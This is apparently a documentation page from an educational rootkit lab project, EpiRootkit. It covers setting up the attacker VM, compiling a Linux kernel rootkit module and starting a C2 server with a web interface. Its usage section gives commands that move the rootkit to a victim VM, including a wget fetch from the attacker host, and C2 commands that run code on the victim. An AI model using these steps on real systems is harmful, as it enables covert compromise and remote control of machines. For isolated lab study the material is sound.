 ```yaml
---
title: "Attacker VM Setup"
description: "Configure the attacking VM with C2 server and web interface"
icon: "terminal"
date: "2025-05-07T00:44:31+01:00"
lastmod: "2025-05-25T00:00:00+01:00"
draft: false
toc: true
weight: 203
---
```


# Attacker VM Setup

Configure the attacking VM with Node.js C2 server and React web interface.

## Prerequisites

1. **Host setup complete**: [Host Environment Setup]({{< relref "environment.md" >}})
2. **VM downloaded**: `vm/attacker.qcow2` in project root
3. **VM launched**: `sudo ./scripts/run_vms.sh attacker`

## VM Access

**Connection Details:**
- **IP Address**: 192.168.200.11 (static)
- **Username**: `attacker` 
- **Password**: `jules`
- **Auto-login**: Enabled (no password prompt)

## Setup Method

{{< tabs tabTotal="2" >}}

{{% tab tabName="Pre-built Disk (Recommended)" %}}

### Quick Start

Everything is already set up, so you can immediately build and run:

```bash
# Inside attacker VM (already logged in)
cd epirootkit

# Build rootkit payload for victim deployment
cd rootkit && make clean && make
ls -la epirootkit.ko  # ✅ Compiled payload ready

# Start C2 server
cd ../attacking_program && pnpm install && pnpm start
# ✅ C2 server started on port 4444
# ✅ Web interface started on port 3000
```

### Ready to Use
- **Web Interface**: `http://192.168.200.11:3000`
- **File transfer**: Ready to deploy payload to victim VM

{{% /tab %}}

{{% tab tabName="Self-build from Scratch" %}}

### Fresh VM Setup

If using a fresh Ubuntu VM, you MUST first install dependencies on the attacker VM:

> **⚠️ Required for Fresh VMs**: Run `./scripts/setup_attacker.sh` inside the attacker VM to install Node.js, npm, pnpm, gcc, and other dependencies.

Choose your preferred setup method:

#### Method 1: Automated (Recommended)

**One-Command Setup from Host**
Run this from your host machine (not inside the VM):

```bash
# From host project directory
./scripts/deploy_to_attacker.sh

# ✅ Transfers project files to VM
# ✅ Runs setup_attacker.sh remotely  
# ✅ Installs all dependencies
# 🎉 Ready to build and start
```

**Build and Start**
SSH into the VM and complete setup:
```bash
# SSH into attacker VM
ssh attacker@192.168.200.11

# Build rootkit and start C2 server
cd epirootkit/rootkit && make clean && make
cd ../attacking_program && pnpm install && pnpm start
# ✅ Web interface: http://192.168.200.11:3000
```

#### Method 2: Manual Step-by-Step

**1. Transfer Project Files**
First, get the EpiRootkit project into the VM.

📖 **Complete Guide**: [Host to VM File Transfer]({{< relref "file-transfer.md" >}})

**Recommended: SCP Transfer**
```bash
# From host machine
scp -r /path/to/epirootkit attacker@192.168.200.11:~/

# Then SSH into attacker VM
ssh attacker@192.168.200.11
cd epirootkit
```

**Alternative Methods:**
- **HTTP**: Host runs `python3 -m http.server`, VM downloads with `wget`
- **Shared Folder**: Mount host directory, copy to VM

**2. Install Dependencies (REQUIRED)**
Run the setup script inside the attacker VM:
```bash
# Inside attacker VM, from epirootkit directory
./scripts/setup_attacker.sh

# Installs: Node.js, npm, pnpm, gcc, make, linux-headers, python3, openssh-server
# ✅ Verifies all installations
# 🎉 Ready for build step
```

**3. Build and Start**
Build the rootkit and start the C2 server:
```bash
# Build rootkit payload for victim deployment
cd rootkit && make clean && make
ls -la epirootkit.ko  # ✅ Payload ready

# Install C2 dependencies and start server
cd ../attacking_program && pnpm install && pnpm start
# ✅ C2 server started on port 4444
# ✅ Web interface started on port 3000
```

{{% /tab %}}

{{< /tabs >}}

## Usage

### Deploy Payload to Victim
Transfer the compiled rootkit and deployment script to victim VM:

```bash
# Option A: SCP transfer (requires SSH on victim)
scp rootkit/epirootkit.ko rootkit/deploy_rootkit.sh victim@192.168.200.10:~/

# Option B: HTTP download (simple Python server)
cd rootkit && python3 -m http.server 8080
# On victim: wget http://192.168.200.11:8080/{epirootkit.ko,deploy_rootkit.sh}

# Option C: Web UI upload (via attacking program)
# Use web interface file transfer panel for both files
```

### Monitor C2 Connections
```bash
# List connected clients
ls

# Wait for victim to load module and connect
# Then authenticate and control
auth Client-1 password
exec Client-1 whoami
```

### Web Interface
Access from any device on the network:
- **URL**: `http://192.168.200.11:3000`
- **Login Password**: `password`
- **Features**: Full payload deployment and C2 control

## Configuration Notes

### Attacker VM Role
- **Builds rootkit**: Compiles `epirootkit.ko` for victim deployment
- **C2 server**: Hosts command & control server on port 4444
- **Web interface**: Provides web UI on port 3000
- **File transfer**: Transfers payload to victim via HTTP/SCP/Web UI

### Network Configuration
- **Attacker VM IP**: `192.168.200.11` (static)
- **Default C2 port**: `4444` (matches rootkit defaults)
- **Web interface**: `http://192.168.200.11:3000`

For victim deployment details, see [Victim VM Setup]({{< relref "victim-vm-setup.md" >}}).

## Next Steps

1. **Victim Setup**: [Victim VM Setup]({{< relref "victim-vm-setup.md" >}})
2. **Deploy Rootkit**: Connect victim to this C2 server
3. **Monitor**: Watch for client connections
